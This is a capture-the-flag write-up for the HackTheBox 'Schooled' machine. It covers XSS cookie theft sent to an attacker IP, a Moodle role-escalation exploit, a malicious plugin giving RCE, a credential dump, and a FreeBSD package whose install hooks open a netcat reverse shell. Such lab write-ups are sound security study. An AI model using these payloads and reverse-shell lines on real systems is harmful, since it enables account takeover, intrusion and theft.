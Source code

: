 ```yaml
---
title: HackTheBox - Schooled Writeup
date: 2021-05-06 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Schooled Writeup.
---
```


<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/3e2a599fda2f510f3a5f2146fae928ee.png">
</p>


Get ready to be schooled trying this one!

*[Find the official room for Hackthebox's - Schooled here!](https://app.hackthebox.eu/machines/335)*


----------------------------------------------------------------------------------------------------

## ENUMERATION

- Beginning enumeration using nmap using a default script and version scan with the verbosity on to see open ports on the fly without having to wait for the scan to finish. Ports 22,80 are found open.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled1.png)
- Scanning for all ports using nmap shows **mysql** is running on port **33060**.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled2.png)
- Trying to see if we can remotely access the database results in no access. 
- Moving on, we begin by looking at port 80 as always....
- Looking at page source suggests for adding an entry in our hosts list. Add `schooled.htb     <corresponding IP>` to your `/etc/hosts` file and continue browsing the site. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled3.png)
- Looking at the about us page . We discover The possble CMS used is - **Moodle**
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled4.png)
- Looking at the Teachers page , we find a bunch of possible unames and roles. Add them to a `user.list` file.
    ```bash
    Jane Higgins :- Scientific Research lecturer
    Lianne Carter:- Manager and English Teacher
    Manuel Phillips:- Mathematics Teacher
    Jamie Borham:- Information Technology lecturer
    ```
- Directory bruteforcing using `gobuster` dosent result in anything too useful.
- So far info discovered:
    ```bash
    mail: admissions@schooled.htb
    From wappalyzer: Php 7.4.15, Apache2, Bootstrap 4.1.0
    ```
- Nothing seems too useful so far. No admin/login panels were found so far.
- Using `gobuster` for `vhost` bruteforcing we find: `moodle.schooled.htb`
- Add `moodle.schooled.htb` to your `/etc/hosts` list and browse to it as before.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled5.png)
- Visiting the page lets us signup without a confirmation.
- Abuse this to create an account next. While signing up the mail naming convention is name@student.schooled.htb.
- After unsuccesfull attempts to upload a payload and get rce, what is odd is that `Manuel Phillips` (teacher) was online and the owner of the maths course. A Possible XSS attack could be attempted.
- On Looking for the Moodle versions and [CVE] we find 2 major.
- Looking at the announcement section Manuel Phillips hints at the MoodleNet Profile in the user settings section. This could be used as the potential XSS avenue. 


----------------------------------------------------------------------------------------------------

### FOOTHOLD:

- Setup a `xss-server` with this [simple python script](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py). 
- Start the server. 
- Enroll in the maths course .
- Use this xss payload: `<img src=x onerror=this.src='http://10.10.14.51:8888/?'+document.cookie;>`
- Paste it in the user settings section
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled6.png)
- Wait for a few seconds and recieve the teachers cookie on your `xss-server`.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled7.png)
- Copy this `cookie --> Inspect Element --> Storage --> replace MoodleSession's value to the cookie --> refresh` the pg/F5 to. You're Now Manuel Phillips (Teacher).

----------------------------------------------------------------------------------------------------

### PRIVILEGE ESCALATION: TEACHER --> MANAGER --> ADMIN

- A interesting site is found while searching for exploits: [moodle_priv_esc](https://moodle.org/security/index.php?o=3&p=2)
- This shows that  a privesc was possible from teacher to manager role is possible by exploiting the course enrollment functionality. 
- Looking at our `users.txt` we know that Lianne Carter is a manager and we could possibly perform the exploit with this user.
- Looking up the cve on github a POC is found: [exploit_poc](https://github.com/HoangKien1020/CVE-2020-14321)
- Steps to perform this privesc:
    - Go to the maths section as `teacher --> Participants`.
    - Click on the Enroll Users option and enroll Lianne carter. Switch on intercept in burp and intercept the passed request.
    - Send the request to repeater and change the following 2 values to match that of your current teacher(`id=24`).
    - Changed these params to match: `userlist%5B%5D=24&roletoassign=1`. (Changing user id to teachers id == 24 and changing role to admin == 1)
![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled8.png)
- Send the request and stop intercept after.
    - From here click on Lianne carter's profile from the below list. Note to see the difference and an Administration button appear on the side.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled9.png)
- Click on it and now we have manager privileges.
- From the POC discussed above we can add even more privileges to allow us to install a plugin of choice. To do this click on site administration from here.
- Click on `Users --> define roles`.  Click on the 'edit' icon in the manager role. Turn intercept on before you do and add the payload from the POC described. Forward the request to get admin privileges.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled10.png)
- Next grab `rce.zip` from [here](https://github.com/HoangKien1020/Moodle_RCE)
- Unzip the file. Modify `block_rce.php` file to a standard php reverse shell of your choosing. Zip back the contents using `zip -r -q lala.zip rce`
- Click on install plugin after `upload --> continue`. You will see a screen with current information. Dont go past it . Time to trigger the rce.
- Setup an `nc` listener , Open a new tab and  trigger the exploit using this link **http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php**
- We now have a shell. 


----------------------------------------------------------------------------------------------------


### POST EXPLOITATION

**user.txt:**

- Poking around and looking for config files, we find the apache and moodle data directory as `usr/local/www/apache24/data/moodle/`.
- Checking the contents of the **config.php** file in dir:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled11..jpg)
- We get database creds as *moodle:P################0* .
- Notice that mysql dosent exist in PATH. We find mysql using the basic find command: `find / -name mysql 2> /dev/null`
- Mysql is at `/usr/local/bin/mysql`.
- We perform 3 basic queries now to enumerate the database: 
    - First cd to /usr/local/bin.
- Then:
    - `mysql -u moodle -pPlaybookMaster2020 -e 'show databases;'` --> infer moodle as the db name.
    - `mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; show tables;'`  --> infer mdl_user could be of interest.
    - `mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; select * from mdl_user;'` --> DB creds dump. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled12.png)
- Jamie's account here is of interest as he is one of the users on the box.
- This hash is a `bcrypt hash`.
- Using john the ripper to crack the hash:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled13..jpg)
- Jamies creds: *jamie:!#####x*
- Now ssh over with these creds.
- Grab user.txt from jamie's home directory.

**root.txt**

- Performing a basic `sudo -l`:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled14.png)
= Poking around the internet and doing some good research on what the command is we find that it is a distinct binary that is replaced by the bootstrapped binary during the initial installation process.
- We can use this to probably install a custom package with code modified to privilege escalate to root.
- [Refer this article](http://lastsummer.de/creating-custom-packages-on-freebsd/)
- After reading the article put it all as a single script and modify parts of it as per your host listener. I used `nc` shells as the box has netcat and bsd just wouldn't work well with regular bash shells.
- The script :
    ```bash
    #!/bin/sh
    STAGEDIR=/tmp/stage
    rm -rf ${STAGEDIR}
    mkdir -p ${STAGEDIR}
    cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
    # careful here, this may clobber your system
    echo "Resetting root shell"
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
    EOF
    cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
    # careful here, this may clobber your system
    echo "Registering root shell"
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
    EOF
    cat >> ${STAGEDIR}/+MANIFEST <<EOF
    name: mypackage
    version: "1.0_5"
    origin: sysutils/mypackage
    comment: "automates stuff"
    desc: "automates tasks which can also be undone later"
    maintainer: john@doe.it
    www: https://doe.it
    prefix: /
    EOF
    echo "deps: {" >> ${STAGEDIR}/+MANIFEST
    pkg query "  %n: { version: \"%v\", origin: %o }" portlint >> ${STAGEDIR}/+MANIFEST
    pkg query "  %n: { version: \"%v\", origin: %o }" poudriere >> ${STAGEDIR}/+MANIFEST
    echo "}" >> ${STAGEDIR}/+MANIFEST
    mkdir -p ${STAGEDIR}/usr/local/etc
    echo "# hello world" > ${STAGEDIR}/usr/local/etc/my.conf
    echo "/usr/local/etc/my.conf" > ${STAGEDIR}/plist
    pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -p ${STAGEDIR}/plist -o .
    ```
- Save the script and make it an executable: `chmod +x script.sh`
- Execute the script and note to see a package made named: `mypackage-1.0_5.txz`
- Run : `sudo /usr/sbin/pkg install --no-repo-update mypackage-1.0_5.txz` (`--no-repo-update` to stop it from checking an online source) and start a listener.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled15.png)
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled16.png)
- Grab `root.txt` from the root home directory.

--------------------------------------------------------------


